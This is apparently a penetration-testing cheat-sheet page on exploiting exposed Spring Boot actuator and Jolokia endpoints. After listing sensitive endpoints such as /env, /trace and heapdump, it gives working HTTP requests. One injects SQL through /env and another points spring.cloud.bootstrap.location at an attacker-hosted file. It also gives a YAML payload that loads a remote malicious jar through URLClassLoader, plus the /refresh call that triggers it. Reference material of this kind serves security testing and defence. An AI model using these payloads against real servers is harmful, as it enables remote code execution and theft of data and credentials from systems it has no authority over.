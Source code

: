 Spring Boot
===========


## Spring Boot Actuators API

The Spring Boot Framework includes a bunch of features called `actuators` to monitor apps.
When the application is running, it registers endpoints that are accessible without
authentication.

Here are some `actuators`:

 - `/dump`: displays a dump of threads (including a stack trace)
 - `/trace`: displays the last several HTTP messages (which could include session identifiers)
 - `/logfile`: outputs the contents of the log file
 - `/shutdown`: shuts the application down
 - `/mappings`: shows all of the MVC controller mappings
 - `/env`: provides access to the configuration environment
 - `/restart`: restarts the application


For instance, it's possible to [dump the heap memory](https://docs.spring.io/spring-boot/docs/current-SNAPSHOT/actuator-api/html/#heapdump)
of the server:

```
https://<host>/path/actuator/heapdump
```

A brute-force list can be found here: [spring_boot.txt](./spring_boot.txt)


## Jolokia

An other Sping Boot endpoint is `jolokia`. It allow the user to perform the same
actions as the JMX.

```
https://<host>/path/jolokia/list
```

It can be used to perform remote code execution.


## Env

The `/env` endpoint allows to update the Spring Boot environmental properties.
It's possible to execute SQL commands:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.datasource.tomcat.validationQuery=<sql cmd>
```

Also, it's possible to update the `env` to execute code with the properties:
`spring.cloud.bootstrap.location` which is used to load external configuration file:

```
POST /env HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

spring.cloud.bootstrap.location=http://<attacker>/malicious-config-file.yml
```

The malicious configuration file can be:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<attacker>/malicious.jar"]
  ]]
]
```

You need to refresh the configuration:
```
POST /refresh HTTP/1.1
Host: <host>
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

